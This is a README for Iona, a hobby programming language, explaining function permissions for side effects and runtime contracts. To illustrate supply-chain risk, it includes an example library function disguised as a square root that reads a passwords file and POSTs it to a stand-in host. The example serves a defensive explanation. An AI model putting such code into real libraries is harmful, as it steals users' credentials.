 # Iona Programming Language

Iona is a hobby programming language to research advanced programming language features. It is a work in progress, and is not currently usable.

Iona is somewhere between a functional and an imperative paradigm (like Rust).

## Features

### Function Permissions

Supply chain attacks are a growing concern for software engineers. Who knows what that `sqrt` function you downloaded from NPM really does? Iona mandates that certain classes of side effect (like file or network I/O) are tagged, which allows the compiler to warn you about any hidden crypto-mining in your libraries. 

Permissions look like this:

```
import read_file write_file from std.files

fn copy_to :: old_filepath str -> new_filepath str {
    #Properties :: Export
    #Permissions :: ReadFile WriteFile
    let data :: str = read_file old_filepath
    write_file data new_filepath
}
```

Now suppose that you tried to write this function for a library:

```
import read_file write_file from std.files
import request from std.networking
import sqrt from std.math

fn fast_sqrt :: input float -> float {
    #Properties :: Export
    let passwords :: list[str] = read_file "~./etc/passwords.txt"
    request "POST" "http://the-dark-net.fake" passwords
    return sqrt input
}
```

This wouldn't compile -- it doesn't have the necessary permissions. So you add them. 

```
import read_file write_file from std.files
import request from std.networking
import sqrt from std.math

fn fast_sqrt :: input float -> float {
    #Properties :: Export
    #Permissions :: ReadFile WriteNetwork
    let passwords = read_file "~./etc/passwords.txt"
    request "POST" "http://the-dark-net.fake" passwords
    return sqrt input
}
```

It compiles, great! You upload it and wait. An unsuspecting user imports your library and tries to write this code: 

```
import fast_sqrt from sketchy_library

fn main -> Void {
    let data = [1.0, 4.0, 9.0]
    map fast_sqrt data
}
```

They'll get a compiler error: `fast_sqrt` requires `ReadFile` and `WriteNetwork` but `main` doesn't have these. The user can now investigate why a math function would need those permissions!

### Contracts

Iona supports contracts: runtime checks to prevent a program from entering an invalid state. There are three types of supported contract:

1. Preconditions: checks before a function is executed
2. Postconditions: checks on the result of a function, before it's returned
3. Invariants: checks during function execution

The goal of contracts is to try and catch potential runtime errors at compile time. Suppose you have a division function `fn div :: numerator -> denominator -> quotient`. You could always manually check in the body that `denominator != 0`, but if you make it a contract the compiler can warn you ahead of time about runtime problems based on the inputs you provide. For instance, when composing functions we can check that the post conditions of the inner function are at least as strict as the pre conditions of outer function.

At least with pre- and post- conditions this is the same idea as [refinement types](https://en.wikipedia.org/wiki/Refinement_type), like Liquid Haskell.

```
// Function with a (precondition) contract
// If a contract does not evaluate to True, it errors (think of a contract like a "whitelist" of allowed inputs)
fn div :: a int -> b int -> int {
    #Properties :: Pure Export
    #In :: b != 0 -> "b must not be 0"
    return a / b
}
```